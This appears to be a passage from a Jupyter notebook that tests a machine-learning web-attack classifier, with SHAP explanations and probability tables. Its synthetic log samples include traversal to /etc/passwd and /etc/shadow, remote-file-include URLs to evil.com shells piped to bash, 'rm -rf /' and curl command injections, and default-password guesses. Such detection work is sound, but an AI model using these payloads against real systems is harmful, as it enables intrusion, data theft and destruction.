    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:02:14","source_ip":"10.0.0.12","http_method":"GET","url":"/static","query_parameters":"img=....//....//etc/passwd","status_code":400,"response_size":0,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:03:16","source_ip":"10.0.0.13","http_method":"GET","url":"/view","query_parameters":"file=%252e%252e%252f%252e%252e%252fetc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:04:18","source_ip":"10.0.0.14","http_method":"GET","url":"/api/file","query_parameters":"path=/../../../../root/.bashrc","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:05:20","source_ip":"10.0.0.15","http_method":"GET","url":"/images","query_parameters":"file=..\\..\\windows\\system32\\drivers\\etc\\hosts","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:06:22","source_ip":"10.0.0.16","http_method":"GET","url":"/static","query_parameters":"file=....//....//....//etc/shadow","status_code":403,"response_size":0,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:07:24","source_ip":"10.0.0.17","http_method":"GET","url":"/download","query_parameters":"file=%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:08:26","source_ip":"10.0.0.18","http_method":"GET","url":"/file","query_parameters":"path=..%252f..%252f..%252fetc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:09:28","source_ip":"10.0.0.19","http_method":"GET","url":"/view","query_parameters":"file=../../../etc/hosts","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:00:10","source_ip":"172.20.0.10","http_method":"GET","url":"/index","query_parameters":"page=/etc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:01:12","source_ip":"172.20.0.11","http_method":"GET","url":"/view","query_parameters":"file=/proc/self/environ","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:02:14","source_ip":"172.20.0.12","http_method":"GET","url":"/load","query_parameters":"file=../../../../etc/shadow","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:03:16","source_ip":"172.20.0.13","http_method":"GET","url":"/page","query_parameters":"template=php://filter/convert.base64-encode/resource=index.php","status_code":500,"response_size":0,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:04:18","source_ip":"172.20.0.14","http_method":"GET","url":"/include","query_parameters":"file=../../boot.ini","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:05:20","source_ip":"172.20.0.15","http_method":"GET","url":"/view","query_parameters":"page=/var/log/apache2/access.log","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:06:22","source_ip":"172.20.0.16","http_method":"GET","url":"/file","query_parameters":"file=....//....//etc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:07:24","source_ip":"172.20.0.17","http_method":"GET","url":"/view","query_parameters":"file=%2e%2e%2f%2e%2e%2fetc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:08:26","source_ip":"172.20.0.18","http_method":"GET","url":"/load","query_parameters":"file=/dev/null;id","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:09:28","source_ip":"172.20.0.19","http_method":"GET","url":"/page","query_parameters":"file=/etc/hosts%00","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:00:10","source_ip":"192.168.10.10","http_method":"GET","url":"/index","query_parameters":"file=http://evil.com/shell.txt","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:01:12","source_ip":"192.168.10.11","http_method":"GET","url":"/load","query_parameters":"template=http://attacker.net/x.php","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:02:14","source_ip":"192.168.10.12","http_method":"GET","url":"/view","query_parameters":"page=http://evil.io/payload","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:03:16","source_ip":"192.168.10.13","http_method":"GET","url":"/include","query_parameters":"file=https://bad.site/shell.php%00","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:04:18","source_ip":"192.168.10.14","http_method":"GET","url":"/index","query_parameters":"module=http://evil.com/backdoor","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:05:20","source_ip":"192.168.10.15","http_method":"GET","url":"/view","query_parameters":"file=http://10.0.0.5/shell","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:06:22","source_ip":"192.168.10.16","http_method":"GET","url":"/load","query_parameters":"file=http://evil.com/x.txt|bash","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:07:24","source_ip":"192.168.10.17","http_method":"GET","url":"/page","query_parameters":"file=http://evil.com/%00","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:08:26","source_ip":"192.168.10.18","http_method":"GET","url":"/include","query_parameters":"file=http://evil.net/shell.js","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:09:28","source_ip":"192.168.10.19","http_method":"GET","url":"/index","query_parameters":"file=http://evil.com/?cmd=ls","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # # ================= COMMAND INJECTION =================
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:01","source_ip":"192.0.2.150","http_method":"POST","url":"/ping","query_parameters":"host=8.8.8.8;ls","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:11","source_ip":"192.0.2.150","http_method":"POST","url":"/api","query_parameters":"cmd=whoami","status_code":200,"response_size":300,"referrer":"-","user_agent":"bash"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:21","source_ip":"192.0.2.150","http_method":"POST","url":"/run","query_parameters":"cmd=ping 127.0.0.1 && id","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:31","source_ip":"192.0.2.151","http_method":"POST","url":"/exec","query_parameters":"cmd=;cat /etc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"python"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:41","source_ip":"192.0.2.151","http_method":"POST","url":"/system","query_parameters":"cmd=rm -rf /","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:51","source_ip":"192.0.2.152","http_method":"POST","url":"/ping","query_parameters":"host=127.0.0.1|whoami","status_code":200,"response_size":300,"referrer":"-","user_agent":"bash"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:01","source_ip":"192.0.2.152","http_method":"POST","url":"/api","query_parameters":"cmd=`id`","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:11","source_ip":"192.0.2.153","http_method":"POST","url":"/run","query_parameters":"cmd=ping;curl evil.com","status_code":200,"response_size":300,"referrer":"-","user_agent":"python"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:21","source_ip":"192.0.2.153","http_method":"POST","url":"/exec","query_parameters":"cmd=$(whoami)","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:31","source_ip":"192.0.2.154","http_method":"POST","url":"/system","query_parameters":"cmd=ps aux","status_code":200,"response_size":300,"referrer":"-","user_agent":"bash"},
    
    # ================= BRUTEFORCE =================
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:01","source_ip":"203.0.113.40","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=123456","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:11","source_ip":"203.0.113.40","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=password","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:21","source_ip":"203.0.113.40","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=admin","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:31","source_ip":"203.0.113.41","http_method":"POST","url":"/wp-login.php","query_parameters":"log=admin&pwd=12345","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:41","source_ip":"203.0.113.41","http_method":"POST","url":"/wp-login.php","query_parameters":"log=admin&pwd=qwerty","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:51","source_ip":"203.0.113.42","http_method":"POST","url":"/admin","query_parameters":"user=root&pass=root","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:01","source_ip":"203.0.113.42","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=welcome","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:11","source_ip":"203.0.113.43","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=letmein","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:21","source_ip":"203.0.113.43","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=admin123","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:31","source_ip":"203.0.113.44","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=123456789","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    
    # # ================= BENIGN SUSPICIOUS =================
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:01","source_ip":"192.0.2.200","http_method":"GET","url":"/admin","query_parameters":"debug=true","status_code":403,"response_size":300,"referrer":"-","user_agent":"python-requests"},
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:11","source_ip":"192.0.2.200","http_method":"GET","url":"/test","query_parameters":"probe=1","status_code":403,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:21","source_ip":"192.0.2.201","http_method":"GET","url":"/admin/panel","query_parameters":"check=1","status_code":403,"response_size":300,"referrer":"-","user_agent":"bot"},
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:31","source_ip":"192.0.2.201","http_method":"GET","url":"/status","query_parameters":"debug=1","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:41","source_ip":"192.0.2.202","http_method":"GET","url":"/login","query_parameters":"remember=1","status_code":200,"response_size":300,"referrer":"-","user_agent":"python"},
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:51","source_ip":"192.0.2.202","http_method":"GET","url":"/probe","query_parameters":"scan=true","status_code":403,"response_size":300,"referrer":"-","user_agent":"bot"},
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:01","source_ip":"192.0.2.203","http_method":"GET","url":"/api","query_parameters":"test=1","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:11","source_ip":"192.0.2.203","http_method":"GET","url":"/health","query_parameters":"","status_code":200,"response_size":300,"referrer":"-","user_agent":"python"},
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:21","source_ip":"192.0.2.204","http_method":"GET","url":"/check","query_parameters":"debug=0","status_code":403,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:31","source_ip":"192.0.2.204","http_method":"GET","url":"/admin","query_parameters":"try=1","status_code":403,"response_size":300,"referrer":"-","user_agent":"bot"}

]


df_inference_raw = pd.DataFrame([
    {k: v for k, v in s.items() if k != "attack_type_true"}
    for s in INFERENCE_SAMPLES
])
true_labels = [s["attack_type_true"] for s in INFERENCE_SAMPLES]

print(f"✅ Generated {len(df_inference_raw)} synthetic inference samples.")
display(df_inference_raw[["http_method", "url", "query_parameters", "status_code"]].head(9))


✅ Generated 10 synthetic inference samples.


,http_method,url,query_parameters,status_code
0,POST,/login,user=admin&pass=123456,401
1,POST,/login,user=admin&pass=password,401
2,POST,/login,user=admin&pass=admin,401
3,POST,/wp-login.php,log=admin&pwd=12345,401
4,POST,/wp-login.php,log=admin&pwd=qwerty,401
5,POST,/admin,user=root&pass=root,401
6,POST,/login,user=admin&pass=welcome,401
7,POST,/login,user=admin&pass=letmein,401
8,POST,/login,user=admin&pass=admin123,401


In [39]:
# ── Load Saved Pipeline & Run Inference ──────────────────────────────────────
print("⏳ Loading saved pipeline from disk...")
prod_pipeline = joblib.load(MODEL_SAVE_PATH)
print(f"✅ Pipeline loaded: {MODEL_SAVE_PATH}")

# ── Predict ───────────────────────────────────────────────────────────────────
predictions     = prod_pipeline.predict(df_inference_raw)
probabilities   = prod_pipeline.predict_proba(df_inference_raw)
predicted_names = [CLASS_NAMES[p] for p in predictions]
confidence      = probabilities.max(axis=1)

# ── Build results DataFrame ───────────────────────────────────────────────────
results_df = pd.DataFrame({
    "True Class"          : true_labels,
    "Predicted Class"     : predicted_names,
    "Confidence %"        : (confidence * 100).round(2),
    "Correct"             : ["✅" if t == p else "❌" for t, p in zip(true_labels, predicted_names)],
    "URL"                 : df_inference_raw["url"].values,
    "Query (truncated)"   : df_inference_raw["query_parameters"].str[:55].values,
})

print("\n🛡️  Real-World Inference Results:")
print("=" * 80)
display(results_df)

correct = sum(1 for t, p in zip(true_labels, predicted_names) if t == p)
print(f"\nDemo Accuracy: {correct}/{len(true_labels)} ({correct/len(true_labels)*100:.0f}%)")


⏳ Loading saved pipeline from disk...


INFO: [Cleaner] Cleaning complete. Output shape: (10, 9)
INFO: [Cleaner] Cleaning complete. Output shape: (10, 9)


✅ Pipeline loaded: ThreatDetectionPipeline.pkl

🛡️  Real-World Inference Results:


,True Class,Predicted Class,Confidence %,Correct,URL,Query (truncated)
0,bruteforce,bruteforce,59.4700,✅,/login,user=admin&pass=123456
1,bruteforce,bruteforce,80.6700,✅,/login,user=admin&pass=password
2,bruteforce,normal,70.4300,❌,/login,user=admin&pass=admin
3,bruteforce,normal,62.9600,❌,/wp-login.php,log=admin&pwd=12345
4,bruteforce,normal,61.4600,❌,/wp-login.php,log=admin&pwd=qwerty
5,bruteforce,normal,74.5100,❌,/admin,user=root&pass=root
6,bruteforce,bruteforce,58.5700,✅,/login,user=admin&pass=welcome
7,bruteforce,bruteforce,58.5700,✅,/login,user=admin&pass=letmein
8,bruteforce,bruteforce,80.6700,✅,/login,user=admin&pass=admin123
9,bruteforce,bruteforce,82.9000,✅,/login,user=admin&pass=123456789



Demo Accuracy: 6/10 (60%)


In [40]:
import numpy as np
import pandas as pd
import shap

# =========================================================
# 1. LOAD MODEL PIPELINE
# =========================================================
model_pipeline = prod_pipeline
model = model_pipeline.named_steps["xgb"]

print("✅ Model loaded")

# =========================================================
# 2. DEFINE CLASS NAMES (IMPORTANT FIX)
# =========================================================
CLASS_NAMES = [
    "benign_suspicious",
    "bruteforce",
    "command_injection",
    "directory_traversal",
    "lfi",
    "normal",
    "rfi",
    "sql_injection",
    "xss"
]

print("✅ Classes:", CLASS_NAMES)

# =========================================================
# 3. PREDICTION
# =========================================================
predictions = model_pipeline.predict(df_inference_raw)
probabilities = model_pipeline.predict_proba(df_inference_raw)

predicted_names = [CLASS_NAMES[i] for i in predictions]
confidence = probabilities.max(axis=1)

print("✅ Predictions done")

# =========================================================
# 4. TRANSFORM INPUT (IMPORTANT FOR SHAP)
# =========================================================
X = model_pipeline[:-1].transform(df_inference_raw)
X = np.array(X)

print("✅ X shape:", X.shape)

# =========================================================
# 5. FEATURE NAMES (FROM SELECTOR)
# =========================================================
feature_names = model_pipeline.named_steps["selector"].feature_cols

print("✅ Feature count:", len(feature_names))

# =========================================================
# 6. SHAP EXPLAINER
# =========================================================
explainer = shap.TreeExplainer(model)
shap_values = explainer.shap_values(X)

print("✅ SHAP computed")

# =========================================================
# 7. TEXT EXPLANATION FUNCTION (MAIN OUTPUT)
# =========================================================
def explain_sample(i=0, top_k=10):
    print("\n" + "="*70)
    print("🚨 AI SENTINEL SECURITY EXPLANATION")
    print("="*70)

    # prediction info
    pred_class = predicted_names[i]
    pred_conf = confidence[i]

    class_id = CLASS_NAMES.index(pred_class)

    print(f"\n🔍 Predicted Attack: {pred_class}")
    print(f"📊 Confidence: {pred_conf:.4f}")

    # correct SHAP slice (IMPORTANT FIX)
    shap_class = shap_values[:, :, class_id]

    # build dataframe
    df = pd.DataFrame({
        "feature": feature_names,
        "value": X[i],
        "shap_value": shap_class[i]
    })

    # sort by importance
    df["abs_shap"] = np.abs(df["shap_value"])
    df = df.sort_values("abs_shap", ascending=False)

    print("\n🔥 Top Contributing Features:\n")

    for _, row in df.head(top_k).iterrows():
        direction = "⬆️ increases risk" if row["shap_value"] > 0 else "⬇️ decreases risk"

        print(
            f"{row['feature']:<25} "
            f"value={row['value']:<10.4f} "
            f"impact={row['shap_value']:<10.4f} "
            f"{direction}"
        )

# =========================================================
# 8. RUN EXPLANATION
# =========================================================
explain_sample(i=2)

INFO: [Cleaner] Cleaning complete. Output shape: (10, 9)
INFO: [Cleaner] Cleaning complete. Output shape: (10, 9)
INFO: [Cleaner] Cleaning complete. Output shape: (10, 9)


✅ Model loaded
✅ Classes: ['benign_suspicious', 'bruteforce', 'command_injection', 'directory_traversal', 'lfi', 'normal', 'rfi', 'sql_injection', 'xss']
✅ Predictions done
✅ X shape: (10, 33)
✅ Feature count: 33
✅ SHAP computed

🚨 AI SENTINEL SECURITY EXPLANATION

🔍 Predicted Attack: normal
📊 Confidence: 0.7043

🔥 Top Contributing Features:

user_agent_length         value=-1.9801    impact=-0.8951    ⬇️ decreases risk
brute_score               value=2.1691     impact=-0.7203    ⬇️ decreases risk
query_length              value=-0.2502    impact=0.5260     ⬆️ increases risk
url_length                value=-0.6585    impact=0.3491     ⬆️ increases risk
suspicious_keyword_count  value=-0.5061    impact=0.2794     ⬆️ increases risk
status_code               value=0.7792     impact=-0.2636    ⬇️ decreases risk
symbol_ratio              value=0.3693     impact=0.2268     ⬆️ increases risk
entropy_score             value=-0.7311    impact=0.1999     ⬆️ increases risk
method_type            

In [41]:
# ── Full Probability Table ────────────────────────────────────────────────────
prob_df = pd.DataFrame(
    probabilities,
    columns=CLASS_NAMES
).round(4)
prob_df.insert(0, "True Label",      true_labels)
prob_df.insert(1, "Predicted Label", predicted_names)
prob_df.insert(2, "Confidence",      confidence.round(4))

print("\n📊 Full Prediction Probability Table:")
display(prob_df)



📊 Full Prediction Probability Table:


,True Label,Predicted Label,Confidence,benign_suspicious,bruteforce,command_injection,directory_traversal,lfi,normal,rfi,sql_injection,xss
0,bruteforce,bruteforce,0.5947,0.0186,0.5947,0.0005,0.0011,0.0051,0.3107,0.0001,0.0687,0.0005
1,bruteforce,bruteforce,0.8067,0.0060,0.8067,0.0005,0.0008,0.0154,0.1346,0.0001,0.0356,0.0003
2,bruteforce,normal,0.7043,0.0211,0.2360,0.0004,0.0009,0.0021,0.7043,0.0001,0.0348,0.0004
3,bruteforce,normal,0.6296,0.0219,0.3424,0.0002,0.0010,0.0009,0.6296,0.0001,0.0036,0.0002
4,bruteforce,normal,0.6146,0.0131,0.3631,0.0002,0.0009,0.0023,0.6146,0.0001,0.0054,0.0002
5,bruteforce,normal,0.7451,0.0259,0.2127,0.0002,0.0008,0.0004,0.7451,0.0001,0.0144,0.0004
6,bruteforce,bruteforce,0.5857,0.0150,0.5857,0.0009,0.0013,0.0122,0.2630,0.0001,0.1214,0.0005
7,bruteforce,bruteforce,0.5857,0.0150,0.5857,0.0009,0.0013,0.0122,0.2630,0.0001,0.1214,0.0005
8,bruteforce,bruteforce,0.8067,0.0060,0.8067,0.0005,0.0008,0.0154,0.1346,0.0001,0.0356,0.0003
9,bruteforce,bruteforce,0.8290,0.0055,0.8290,0.0008,0.0005,0.0172,0.1310,0.0000,0.0156,0.0003




✅ Inference probability chart rendered.


In [42]:
# ── Inference Visualization ───────────────────────────────────────────────────
fig, axes = plt.subplots(3, 3, figsize=(16, 13))
fig.suptitle("Prediction Confidence per Sample", fontsize=14, fontweight="bold")
axes = axes.flatten()

for i, (ax, true_lbl, pred_lbl, probs) in enumerate(
    zip(axes, true_labels, predicted_names, probabilities)
):
    bar_colors = [
        "#2ecc71" if c == pred_lbl else "#e74c3c" if c == true_lbl else "#bdc3c7"
        for c in CLASS_NAMES
    ]
    ax.bar(range(len(CLASS_NAMES)), probs, color=bar_colors, edgecolor="white")
    ax.set_xticks(range(len(CLASS_NAMES)))
    ax.set_xticklabels(CLASS_NAMES, rotation=45, ha="right", fontsize=7)
    ax.set_ylim(0, 1.05)
    title_color = "green" if true_lbl == pred_lbl else "red"
    ax.set_title(
        f"True: {true_lbl}\nPred: {pred_lbl}  ({probs.max()*100:.1f}%)",
        fontsize=8, color=title_color, fontweight="bold"
    )
    ax.set_ylabel("Probability", fontsize=7)

plt.tight_layout()
plt.savefig(r"D:\c4\results\inference_probabilities.png", bbox_inches="tight", dpi=110)

plt.show()
print("✅ Inference probability chart rendered.")


# **Random Forest**

In [43]:
from sklearn.pipeline import Pipeline
from sklearn.base import BaseEstimator, TransformerMixin
from sklearn.ensemble import RandomForestClassifier
import pandas as pd
import numpy as np

# =============================================================================
# Random Forest Parameters
# =============================================================================

RF_PARAMS = {
    "n_estimators": 500,
    "max_depth": None,
    "min_samples_split": 2,
